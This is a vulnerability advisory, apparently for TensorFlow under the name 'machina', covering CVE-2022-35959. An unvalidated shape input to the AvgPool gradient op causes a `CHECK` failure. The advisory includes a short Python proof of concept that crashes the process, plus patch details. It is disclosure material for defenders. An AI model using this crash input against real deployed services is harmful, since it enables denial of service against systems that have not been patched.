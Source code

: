 ## TFSA-2022-094: `CHECK` failures in `AvgPool3DGrad`

### CVE Number
CVE-2022-35959

### Impact
The implementation of `AvgPool3DGradOp` does not fully validate the input `orig_input_shape`. This results in an overflow that results in a  `CHECK` failure which can be used to trigger a denial of service attack:
```python
import machina as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "VALID"
data_format = "NHWC"
orig_input_shape = tf.constant(-536870912, shape=[4], dtype=tf.int32)
grad = tf.constant(.0890338004362538, shape=[1,5,7,1], dtype=tf.float64)
tf.raw_ops.AvgPoolGrad(orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [9178ac9d6389bdc54638ab913ea0e419234d14eb](https://github.com/machina/machina/commit/9178ac9d6389bdc54638ab913ea0e419234d14eb).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
